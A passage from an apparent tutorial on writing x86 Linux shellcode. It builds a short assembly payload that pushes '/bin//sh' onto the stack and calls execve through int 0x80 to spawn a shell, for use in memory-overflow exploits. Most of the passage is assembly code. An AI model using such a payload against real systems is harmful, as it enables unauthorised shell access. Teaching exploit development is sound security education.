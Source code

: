 So you can see we successfully got the address of the string in `$eax` again.

*Quick note*: because the following memory byte was not null, it was taken as being part of the string, we'll need to fix that later, by pushing `0` to the stack first.

# Writing the shellcode

We're going to use the second method, which is simpler and shorter to write. When writing a shellcode, because you're trying to overflow memory you aren't supposed to use, it's always a good idea to have the shortest payload possible.

## Pseudo-ASM

Let's go back to our interrupt and move up to what we need to have in the registers:

```asm
push 0
push string
push 0
mov ebx, string_address
mov ecx, 0
mov eax, 0xb
int 0x80
```

We can already replace a few instructions:

```asm
push 0
push 0x68732f2f
push 0x6e69622f
push 0
mov ebx, string_address
mov ecx, 0
mov eax, 0xb
int 0x80
```

Now every time we push something on the stack `$esp` changes, so we need to get its value right after the string:

```asm
// shellcode.asm
section .text
    global _start

_start:
    push 0
    push 0x68732f2f
    push 0x6e69622f
    mov  eax, esp
    push 0
    mov ebx, eax
    mov ecx, 0
    mov eax, 0xb
    int 0x80
```
